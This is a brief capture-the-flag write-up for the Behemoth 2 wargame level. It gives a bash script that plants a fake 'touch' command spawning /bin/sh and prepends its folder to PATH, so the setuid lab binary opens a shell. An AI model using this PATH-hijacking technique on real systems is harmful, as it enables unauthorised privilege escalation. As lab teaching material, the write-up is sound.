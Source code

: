 # Behemoth 2

ltrace shows that `touch` is called, not qualified. So the following script should work:

```bash
tmpdir=$(mktemp -d)
chmod 777 $tmpdir
cd $tmpdir
echo /bin/sh > touch
chmod 777 touch
export PATH=$tmpdir:$PATH
/behemoth/behemoth2
```